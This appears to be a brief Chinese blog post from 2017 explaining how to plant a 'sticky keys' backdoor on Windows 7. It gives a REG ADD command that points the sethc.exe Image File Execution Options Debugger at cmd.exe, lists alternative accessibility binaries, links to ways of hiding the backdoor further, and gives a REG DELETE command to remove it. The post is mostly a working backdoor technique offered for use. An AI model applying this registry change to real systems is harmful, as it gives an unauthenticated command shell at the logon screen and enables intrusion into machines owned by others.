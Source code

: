 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


### About

win03下copy命令可制作粘滞键后门,测试在win7上copy方法无效,本文记录win7下的方法


### Detail

以管理员身份打开cmd.exe运行如下:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe|osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥:

<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

```
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
```

以上理论上适用于win vistar以上系统,只在win7上测试过.
